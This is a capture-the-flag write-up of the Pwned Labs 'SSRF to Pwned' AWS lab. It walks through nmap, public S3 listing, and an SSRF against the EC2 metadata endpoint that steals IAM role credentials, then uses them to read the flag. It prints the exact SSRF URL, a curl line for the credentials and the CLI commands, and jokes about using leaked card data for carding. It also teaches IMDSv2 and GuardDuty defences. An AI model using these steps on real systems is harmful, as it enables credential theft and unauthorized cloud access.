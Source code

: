 ```yaml
---
title: "Pwned Labs - SSRF to Pwned"
date: 2024-02-04
categories: [AWS, Cloud, Security]
tags: [AWS, Security, EC2, PwnedLabs]
---
```


![Intro](/images/PwnedLabs/SSRF/8.png)

Hey everyone! It's time for another AWS Security challenge write-up. This time, we will be solving the [SSRF to Pwned](https://pwnedlabs.io/labs/ssrf-to-pwned) challenge. When we begin the lab, we are provided by an IP address as an entry point so let's start with that.

A Nmap scan reveals port 80 is open, so let's explore what's running there. Also, observe that the nmap also returned `ec2-52-6-119-121.compute-1.amazonaws.com` which indicates that this is a IP of an EC2 server.
```
nmap 52.6.119.121
Nmap scan report for ec2-52-6-119-121.compute-1.amazonaws.com (52.6.119.121)                                            
Host is up (0.21s latency).                                                                                             
Not shown: 998 filtered ports                                                                                           
PORT    STATE  SERVICE                                                                                                  
80/tcp  open   http                                                                                                     
443/tcp closed https
```

When I tried to open the IP in the browser, it redirects to `hugelogistics.pwn`.  We first need to add the following entry in our hosts file then we can browse the website in our browser. I added the following entry in the `C:\Windows\System32\drivers\etc\hosts` file. In case of Linux systems, you can add the entry in `/etc/hosts` file. 
```
52.6.119.121 hugelogistics.pwn
```
Now, when we load the site `hugelogistics.pwn` in our browser, we see the following site. 

![Intro](/images/PwnedLabs/SSRF/0.png)

While looking at the source code of the website, we can notice that this static website is hosted using S3 bucket hosting, and the bucket name is `huge-logistics-storage`. 

![Intro](/images/PwnedLabs/SSRF/source.png)

We can observe that the bucket is publicly accessible, and contains the flag in the `backup` folder. But, we do not have permission to read the `flag.txt`. 
```
$ aws s3 ls s3://huge-logistics-storage --no-sign-request
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --no-sign-request
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt

$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --no-sign-request
download failed: s3://huge-logistics-storage/backup/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```
Switching back to my browser, I started exploring the site and found a Status Check functionality, this functionality passes a parameter called "name" with the value `hugelogisticstatus.pwn`. The response is the Status Page as shown below. The first thing that comes to mind when you see this kind of functionality is SSRF.

![Intro](/images/PwnedLabs/SSRF/1.png)

So, without taking more time, I quickly passed the Instance Meta-data Service (IMDS) IP `http://169.254.169.254` to the name parameter. We can notice in the response, we are getting the data.

> There have been numerous cloud data breaches caused because an attacker was able to get the Role credentials attached to EC2 instances by exploiting vulnerabilities such as SSRF or RCE. This occurs because when exploiting a vulnerability like SSRF, an attacker can send requests to internal infrastructure. Each EC2 instance has a service called Instance Meta-data service (IMDS) attached to it. The Instance Metadata Service (IMDS) in AWS is a service that provides information about an Amazon Elastic Compute Cloud (EC2) instance, accessible at 169.254.169.254. It enables EC2 instances to retrieve metadata about themselves,
such as instance ID, IP address, security group information, and most importantly, the IAM credentials provided to the instance via the EC2 Instance Profile Role.\
You can obtain the temporary AWS credentials by sending a request to :\
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance-role>`\
If an application running on an EC2 instance was vulnerable to SSRF attacks, attackers could exploit the vulnerability to exfiltrate the IAM credentials through the IMDSv1 endpoint, which are granted to the instance via IAM Instance Profile Role. With the stolen temporary security credentials, attackers could escalate their privileges and gain unauthorized access to other AWS resources, including S3 buckets, databases, or launch further attacks within the victim’s environment.\ 
To enhance security for the IMDS endpoint, AWS introduced IMDSv2, implementing a small yet crucial change in the way IMDS was accessed. Instead of allowing access without authentication, IMDSv2 enforces the fetching of a token that is then used to authenticate all requests made to the IMDS endpoint. This measure significantly reduces the risk of unauthorized access through SSRF vulnerabilities.
And, if in any scenario an attacker is able to extract these temporary credentials, AWS GuardDuty (if enabled) sends an alert notifying you about the incident. For example, below two alerts:
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS\
> InsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them to their own EC2 instance for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from within the AWS netowrk.\
OutsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them in the terminal of their system for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from outside the AWS network.

![Intro](/images/PwnedLabs/SSRF/2.png)

We were able to successfully obtain the temporary credentials by opening `http://hugelogistics.pwn/status/status.php?name=169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access`, here you should note that the role attached to the EC2 server is "MetapwnedS3Access".

![Intro](/images/PwnedLabs/SSRF/3.png)

We know once we get the AWS Credentials, our next step is to configure them into our AWS profile. But, this time we also have a token alongside AWS Access Key and Secret Key, we can configure those as shown below.

![Intro](/images/PwnedLabs/SSRF/5.png)

Or you can also export these credentials into your environment variables to use them further. 
```
$ export AWS_ACCESS_KEY_ID=key
$ export AWS_SECRET_ACCESS_KEY=key
$ export AWS_SESSION_TOKEN=token
```
We can observe that we have assumed the role MetapwnedS3Access, along with the EC2 instance id `i-0199bf97fb9d996f1` the role is attached to. This command below is basically `whoami` command in context of AWS.

```
$ aws sts get-caller-identity --profile ssrf
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```
Now, we have everything configured and working, so let us try to list the bucket objects with the recently obtained credentials. 

```
$ aws s3 ls huge-logistics-storage --profile ssrf
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --profile ssrf
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```
We notice a file called `cc-export2.txt`, which contains data of bunch of credit card. We will use them for carding later /s.  

![Intro](/images/PwnedLabs/SSRF/7.png)

Let's obtain the flag and finish the challenge.
```
$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --profile ssrf
282f0[.............]7110
```

## Lessons Learned
1. Do not keep your confidential data in public buckets.
2. Assign proper permissions on the buckets and objects defining who can access your data, keeping in mind the Least privilege policy model.
3. Migrate all your previous EC2, ECS, EKS instances to IMDSv2 service.
4. With the latest announcement in the last re:Invent, all the new EC2 instances will be on IMDSv2 by default, but you should write a SCP to make sure nobody can change the configuration back to IMDSv1.  